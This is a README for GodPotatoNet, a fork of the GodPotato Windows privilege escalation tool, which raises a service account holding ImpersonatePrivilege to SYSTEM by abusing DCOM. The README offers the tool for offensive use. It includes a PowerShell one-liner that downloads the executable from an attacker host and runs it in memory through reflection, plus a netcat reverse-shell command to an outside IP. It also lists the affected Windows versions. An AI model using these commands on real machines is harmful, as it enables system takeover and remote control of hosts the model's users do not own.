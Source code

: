 # GodPotatoNet
This fork of [GodPotato](https://github.com/BeichenDream/GodPotato) aims to expand upon the usability of BeichenDream's hard work.

![HelpMessage](https://cdn.discordapp.com/attachments/855920119292362802/1110988288031993917/image.png)

The predominant functionality I wanted to add was support for C# reflection, while refining some general usage.

```powershell
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

**Current Status:**
- Initial support for C# reflection. (``v1.0.0``)
- Refined help message. (``v1.0.0``)
- Refine argument input so calling from memory is more intuitive. (``WIP``)
- Fix (assumptive) thread handling issue present ONLY when calling from memory. (``WIP``)

**Known Bugs:**
- When called from memory, privilege escalation is only successful on the first execution -- every following attempt fails to impersonate the security context token.  Currently the only fix is to load ``GodPotatoNet`` into a new terminal session.

**Affected Windows Versions:**
- Windows Server 2012 - Windows Server 2022
- Windows 8 - Windows 11


### Original GodPotato
---

Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato

**Examples:**

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"
```

![](images/2.png)

Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### Thanks

- zcgonvh
- skay

### License

[Apache License 2.0](/LICENSE)
